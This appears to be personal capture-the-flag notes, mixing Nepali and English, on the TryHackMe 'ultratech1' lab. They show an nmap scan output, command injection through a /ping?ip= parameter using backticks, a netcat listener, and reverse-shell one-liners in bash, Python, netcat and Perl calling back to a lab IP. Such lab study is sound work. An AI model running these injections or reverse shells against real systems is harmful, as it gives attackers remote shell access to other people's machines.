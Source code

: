 lololol

ma aghi dekhi nmap handai thiye lolol vpn nai connect raina raixa

tait

- euta chai bhete
    
    ┌──(namura㉿namu)-[~/thm/ultratech1] └─$ nmap -p8081 -sF 10.10.226.101
    
    Starting Nmap 7.95 ( [](https://nmap.org/)[https://nmap.org](https://nmap.org) ) at 2025-06-18 20:48 +0545 Nmap scan report for 10.10.226.101 Host is up (0.017s latency).
    
    PORT STATE SERVICE 8081/tcp open|filtered blackice-icecap
    
    Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
    
- Alternate vectors
    
    ```jsx
    RCE Detection
    ├── Input: /ping?ip=`id`
    │   └── Response: uid=1001 → Code is executed on backend
    ├── Confirm environment:
    │   ├── /ping?ip=`whoami`
    │   ├── /ping?ip=`uname -a`
    │   └── /ping?ip=`which bash`
    ├── Determine shell and language support:
    │   ├── bash present?
    │   ├── python3 present?
    │   └── nc/netcat present?
    
    ```
    
    ```jsx
    Netcat Listener
    ├── nc -nvlp 4444
    │   └── Wait for incoming connection
    │
    ├── Note:
    │   └── Ensure firewall is open (especially if VPN used)
    │   └── Use tun0 IP (e.g., 10.11.99.99) as callback IP
    
    ```
    
    ```jsx
    Payloads via CMD Injection
    ├── Bash (most reliable)
    │   └── `bash -c 'bash -i >& /dev/tcp/10.11.99.99/4444 0>&1'`
    │
    ├── Python (if bash is restricted)
    │   └── `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.11.99.99",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`
    │
    ├── Netcat (if installed)
    │   └── `nc 10.11.99.99 4444 -e /bin/bash`
    │   └── Or: `/bin/nc 10.11.99.99 4444 -e /bin/sh`
    │
    ├── Perl (very rare fallback)
    │   └── `perl -e 'use Socket;$i="10.11.99.99";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
    